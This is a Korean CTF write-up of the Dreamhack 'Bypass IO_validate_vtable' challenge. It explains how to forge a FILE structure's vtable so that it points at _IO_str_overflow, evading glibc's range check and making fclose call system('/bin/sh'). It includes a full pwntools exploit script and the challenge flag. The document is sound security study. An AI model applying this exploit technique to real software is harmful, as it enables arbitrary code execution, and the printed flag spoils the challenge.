



# G3 · Bypass IO_validate_vtable

### 1. 문제 확인

`pwnable` 분류의 G3 문제. FILE 구조체를 입력으로 덮을 수 있다는 점은 iofile 문제들과 같지만, 목표가 다르다. 앞의 iofile_aaw/aar이 **메모리를 읽거나 쓰는 데서 끝났다면**, 이 문제는 FILE 구조체의 **vtable(함수 테이블)을 위조해 제어 흐름을 가로채고 `system("/bin/sh")`로 셸까지** 간다. 다만 최신 glibc의 `IO_validate_vtable` 검사가 vtable 위조를 막고 있어, 그 검사를 우회하는 게 핵심이다.

<p align="center">
  
</p>

### 2. 코드

```c
FILE *fp;

int main() {
    init();
    fp = fopen("/dev/urandom", "r");   // FILE 구조체 하나 생성

    printf("stdout: %p\n", stdout);    // libc 릭 제공
    printf("Data: ");

    read(0, fp, 300);                  // ★ 입력을 fp(FILE 구조체)에 덮어씀
    fclose(fp);                        // ★ 위조된 vtable로 함수 호출
}
```

`read(0, fp, 300)`으로 FILE 구조체를 통째로 덮는 부분은 [G4 iofile](<../G4/G4 _IO_FILE Arbitrary Address Write.md>)과 같다. 다른 점은 트리거가 `fread`/`fwrite`가 아니라 **`fclose`**이고, 노리는 필드가 버퍼 포인터가 아니라 **vtable**이라는 것이다. No PIE라 `fp` 주소도 고정이다.

### 3. iofile 문제와 뭐가 다른가

| | iofile_aaw/aar (G4) | Bypass IO_validate_vtable (G3) |
|---|---|---|
| 조작 대상 | `_IO_buf_*` / `_IO_write_*` 포인터 | **vtable 포인터** |
| 트리거 | `fread`/`fwrite` 내부 read/write | **`fclose` 내부 함수 호출** |
| 결과 | 임의 주소 읽기/쓰기 | **코드 실행 → 셸** |
| 방어물 | 없음 | **`IO_validate_vtable`** |

iofile은 "stdio가 버퍼 포인터를 검증 없이 믿는다"를 이용했고, 이건 "stdio가 vtable을 통해 함수를 호출한다"를 이용한다. 그리고 그 vtable 호출에는 검사가 하나 붙어 있다.

### 4. 벽: IO_validate_vtable

`fclose`는 `fp->vtable->__finish`를 호출한다. vtable을 우리가 원하는 주소로 덮으면 임의 함수 호출이 되지만, 최신 glibc는 호출 직전에 이걸 검사한다:

```c
// vtable 포인터가 __libc_IO_vtables 섹션 범위 안이 아니면 프로세스를 죽인다
if ((uintptr_t)vtable - (uintptr_t)__start___libc_IO_vtables >= section_length)
    _IO_vtable_check();
```

즉 **힙에 가짜 vtable을 만들어 가리키는 고전 수법은 막혔다.** 검사는 "vtable이 섹션 범위 안이냐"만 보고, "어느 테이블의 몇 번째 칸이냐"는 보지 않는다. 이 허점이 우회의 열쇠다.

### 5. `_IO_str_overflow` 와 `0xd8`

검사를 통과하려면 **섹션 안에 실제로 존재하는 함수**를 가리켜야 한다. 그중 `_IO_str_overflow`를 노린다. 이 함수가 선택된 이유는, 내부에서 **FILE 구조체 안의 함수 포인터를 조작 가능한 인자로 호출**하기 때문이다:

```c
int _IO_str_overflow(FILE *fp, int c) {
    ...
    size_t new_size = 2 * _IO_blen(fp) + 100;          // blen = _IO_buf_end - _IO_buf_base
    new_buf = (*((_IO_strfile *)fp)->_s._allocate_buffer)(new_size);  // ★ 함수 포인터 호출
    ...
}
```

- 호출되는 함수 포인터 `_s._allocate_buffer` → FILE 구조체 필드라 **`system`으로 덮을 수 있음**
- 그 인자 `new_size = 2*(buf_end-buf_base)+100` → **`"/bin/sh"` 주소로 맞출 수 있음**

이 함수의 주소를 `_IO_file_jumps + 0xd8`로 구한다:

```
0xd8 = 0xc0 (file_jumps → str_jumps 거리) + 0x18 (__overflow 칸 오프셋)
```

즉 `io_file_jumps + 0xd8` = `_IO_str_jumps`의 `__overflow` 칸이고, 거기 `&_IO_str_overflow`가 들어있다. 이게 섹션 안 주소라 검사를 통과한다.

**vtable 당기기**: `fclose`가 부르는 건 `__finish`(vtable 기준 오프셋 `0x10 = 16`) 칸이다. 그래서 vtable을 16만큼 앞으로 당겨둔다:

```python
io_str_overflow = io_file_jumps + 0xd8   # &_IO_str_overflow 든 칸
fake_vtable     = io_str_overflow - 16    # fake_vtable + 0x10 = 그 칸
```

이러면 `fclose`가 `*(fake_vtable + 0x10)`을 읽을 때 `_IO_str_overflow`가 나와 호출된다.

### 6. payload 핵심 필드

300바이트 입력으로 FILE 구조체 전체를 덮는다. 의미 있는 칸만 보면:

```python
_IO_write_ptr = (binsh - 100) // 2     # offset 0x28
_IO_buf_end   = (binsh - 100) // 2     # offset 0x40  -> new_size = 2*blen+100 = binsh
_lock         = fp + 0x80              # offset 0x88  -> 0이 든 곳 (fclose 잠금용)
vtable        = fake_vtable            # offset 0xd8  -> IO_validate_vtable 우회
_allocate_buffer = system             # offset 0xe0  -> 호출될 함수 포인터
```

- `buf_end=(binsh-100)//2`, `buf_base=0`: `new_size = 2*((binsh-100)/2)+100 = binsh`. glibc 2.27의 `2*blen+100` 공식을 역산한 값이다.
- `_lock = fp+0x80`: `fclose`가 락을 거는데, 그 주소에 0이 들어있어야 정상 동작한다. 구조체 안의 0인 칸을 가리키게 둔다.
- `vtable`, `_allocate_buffer`: 위조의 본체.

### 7. 익스플로잇

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 9061)
libc = ELF('./libc.so.6', checksec=False)
elf = ELF('./bypass_valid_vtable', checksec=False)

p.recvuntil(b'stdout: ')
leak = int(p.recvuntil(b'\n').strip(b'\n'), 16)
libc_base = leak - libc.symbols['_IO_2_1_stdout_']          # 베이스 역산

io_file_jumps   = libc_base + libc.symbols['_IO_file_jumps']
io_str_overflow = io_file_jumps + 0xd8                       # &_IO_str_overflow 든 칸
fake_vtable     = io_str_overflow - 16                       # __finish(0x10)가 그 칸을 읽게
binsh  = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
fp = elf.symbols['fp']

payload  = p64(0x0)                  # _flags
payload += p64(0x0)                  # _IO_read_ptr
payload += p64(0x0)                  # _IO_read_end
payload += p64(0x0)                  # _IO_read_base
payload += p64(0x0)                  # _IO_write_base
payload += p64((binsh - 100) // 2)   # _IO_write_ptr
payload += p64(0x0)                  # _IO_write_end
payload += p64(0x0)                  # _IO_buf_base
payload += p64((binsh - 100) // 2)   # _IO_buf_end -> new_size = 2*blen+100 = binsh
payload += p64(0x0)                  # _IO_save_base
payload += p64(0x0)                  # _IO_backup_base
payload += p64(0x0)                  # _IO_save_end
payload += p64(0x0)                  # _IO_marker
payload += p64(0x0)                  # _IO_chain
payload += p64(0x0)                  # _fileno
payload += p64(0x0)                  # _old_offset
payload += p64(0x0)
payload += p64(fp + 0x80)            # _lock -> 0 들어있는 곳
payload += p64(0x0) * 9
payload += p64(fake_vtable)          # vtable 덮기 (offset 0xd8)
payload += p64(system)               # _s._allocate_buffer -> system

p.sendline(payload)
# fclose -> _IO_str_overflow -> system("/bin/sh")
p.interactive()
```

### 8. 실행 결과

<p align="center">
  
</p>

```text
DH{2eb9fa36f3ffbb948fd525ad7190d263da14eb01af4106a0a037b6ec9662f582}
```
